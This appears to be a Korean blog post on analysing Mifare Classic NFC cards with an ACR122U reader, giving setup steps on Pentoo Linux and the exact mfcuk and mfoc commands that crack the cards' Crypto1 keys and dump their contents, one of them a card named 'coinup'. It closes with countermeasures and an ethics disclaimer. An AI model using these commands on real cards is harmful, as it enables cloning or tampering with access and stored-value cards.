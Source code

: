 ```yaml
---
layout: post
title:  "ACR122u를 이용한 Mifare Classic Anaylsis"
date:   2017-10-27
---
```



### ACR122U
NFC 리더기로써 libnfc의 호환이 가능성 러더기 제품 중 하나로써, Mifare Serise, ISO 14443 호환 태그 뿐만 아니라, ISO/IEC 18092태그까지 Read/Write 할 수 있다.

[ACR122U 리더기 스펙](https://www.acs.com.hk/en/products/3/acr122u-usb-nfc-reader/)

nfc-tools의 nfclib를 이용하여 카드의 규격 확인 및 다양한 정보를 얻을 수 있고,

mfoc, mfcuk를 사용하여 mifare classic card의 password를 크랙 할 수 있다.



### ACR122u sdk

ACR122u를 사용방법으로는 ACS ACR122U SDK(software Develoment Kit), libnfc가 좋다고 판단한다.

acr122u sdk는 구매를 통하여 얻을수 있으며, 인터넷를 뒤져보면 다운 받을수 있다.

그 밖에도 간단한 프로그램으로는 [ACS Util](https://www.acs.com.hk/en/utility-tools/)에서 제공해주고 있다.

별로 효율적이지는 않다.

APDU(Application Protocol Data Uint) Commands를 이용하여 정보를 얻어오거나 실행하는게 가능하며 GUI 기반으로 작성되었으며, 사용이 직관적이다.

### nfc-tools

[NFC-tools Wiki](http://nfc-tools.org/index.php?title=Main_Page)

[NFC-tools github](https://github.com/nfc-tools)

NFCLIB를 이용하기 위해서는 host 환경에 linux에서 사용하는 것이 최선이며, windows에서는 많은 오류와 버그가 발생한다. nfc 분석환경에서 hack rf one를 최선으로 사용하기 위해 pentoo를 사용하기 때문에 pentoo linux를 이용하여 libnfc를 이용하는 환경을 구축한다.

pentoo에서는 emerge libnfc를 이용하여 libnfc를 설치하며 다른운영체제의 설치 방법은 다음 아래 사이트를 참조하면 된다.

[LIBNFC-운영체제별 설치방법](http://nfc-tools.org/index.php?title=Libnfc)

pentoo는 liveos 운영체제로 하였으며, usb에 설치 하여 동작하였다.
booting과정은 boot순서를 usb를 제일 위로 올려주어서 부팅하여야한다.
제가 사용하는 LG gram모델같은 경우 uffi모드와 secure boot모드를 해제 하여 실행하였다.
advanced에서 pentoo를 실행하여
startx명령어를 통하여 gui 운영체제로 부팅하였고

command를 통하여 기본적인 설정을 한다.

sudo 
passwd pentoo (스크린세이버가 걸리면 패스워드를 요구 한다. 스크린세이버 데몬을 죽여도 된다.)

service NetworkMange start(Wifi 설정을 위하여 실행하였다.)

emerge nfclist
modprobe –r pn533
modprobe –r nfc

를 하여 acr122u를 통하여 nfclib tool을 사용할 수 있다.

연결확인 nfc-list

카드 정보 확인 nfc-list –v

### mfcuk
mfcuk는 Mifare Classic의 Crypto1 취약점을 이용하여 하나의 키를 알아내는 프로그램으로써 아무런 키값을 모르는 경우 사용한다.
키를 모르는 경우 MFOC를 사용하기 위해서 선행되어야 한다.

./mfcuk -C -R 0:A -s 250 -S 250 -v 3

### mfoc
기본키나 알고있는 키를 기반으로 하여 mifare classic의 crypto1 취약점을 이용하여 나머지 키를 알아낸다.

mfoc –o card_dump.mfd –P 999 –k ffffffffffff –k 12345678 | tee card_dump.txt
-o 결과 파일 출력
-P 한 개의 키를 얻어 내기 위한 최대횟수
-k 알고 있는 key
tee cmd로 출력된 값을 txt로 받아준다.



pentoo libnfc , mfoc, mfcuk install shell

```
# OS is pentoo

# pentoo use libnfc

# su
# passwd pentoo
# service NetworkManager start

# Access WIFI OR ETHERNET

# emerge --sync # choice
# emaint -a sync
# emerge-webrsync
# eix-sync
# emerge -a eix

#install libnfc
emerge libnfc
echo "blacklist nfc\nblacklist pn533\nblacklist pn533_usb" >> /etc/modprobe.d/blacklist.conf
modprobe -r pn533
modprobe -r nfc

nfc-list

#install mfoc
# emerge mfoc
emerge --ask dev-vcs/git
cd ~/Desktop/
git clone https://github.com/nfc-tools/mfoc
cd mfoc
autoreconf -vis
./configure
make

#install mfcuk
cd ~/Desktop/
git clone https://github.com/nfc-tools/mfcuk
cd mfcuk

autoreconf -vis
./configure
make

cd src
./mfcuk -C -R 0:A -s 250 -S 250 -v 3


# one console pcscd - purpose deduging

# one console mfoc
# mfoc -O coinup.mfc | tee coinup.txt 

# card dump 
# nfc-mfclassic w B output.mfd output.mfd

# nfc-mfclassic R A dump.mfd
# mfoc -P 500 -O keyFileDump.mfd

# nfc-mfclassic r A dump.mfd keyFileDump.mfd
# vi dump.mfd
# esc :%!xxd

```


nfclib 를 통하여 Key를 크랙하고, 얻은 key 를 가지고 MCT APP을 통하여 분석하는 방법이 제일 효율적이였다.

### 보안적인 대응방법

Mifare Classic의 취약점이  많이 알려진 지금에서도, 다양한 사업군에서 Mifare Classic이 적용되어 사용되고 있다. 

이러한 문제를 해결 하기 위해서는 기본키 또는 알려진 키를 사용하지 않으며,
금액 정보와 같은 중요정보를 인코딩을 사용하고, CheckSum을 사용하여 값의 변조를 확인하고,
사업군 고유의 의미 있는 사용정보를 담아서 위험을 최대한 감소하여야 한다.

무엇보다도 중요한건 자신의 사업에 있어서, 이러한 취약점이 있음에도 사용에 문제가 없다는 수용가능 위험수준(Degree of Assurance, DOA)을 평가하여 카드의 규격을  선택하는 것이다.

더 안전한 모델로는 Mifare 에서 Plus SL(Security Level)3 , Desfire가 있을수 있다.


### 추가적인 분석하는 방법 

- [MCT(Mifare Classic Tool) App을 통한 분석](http://blog.naver.com/ndb796)을 할수 있다.

- Proxmark3를 이용한 분석 
현재 Proxmark3가 rfid 연구 분석 목적으로 제일 좋으며, 다양한 Read Card Spec를 보유하고 있다.
ACR122U 가격과 얼마 차이가 안나는 Proxmark3 easy를  구매할수 있는 걸로 확인된다.
다만 해외 배송이라는 단점이 있다.

### 도움 되는 정보

- 카드 규격
Mifare Classic
Mifare Ultralight

- APDU관련
iso 1816
iso 14443

### 주의사항
- 윤리의식
자료의 내용은 사회적으로 보안적으로 도움이 되기 위해서 작성하였으며, 잘못 사용하여 문제가 발생하였을 시 모든 책임은 본인에게 있습니다.

- 안내
여기의 기재된 내용은 본인의 연구를 통한 자료이며, 개인적인 의견이 반영 되었습니다. 잘못된 부분이 있으면 이메이을 통하여 문의하여 주세요.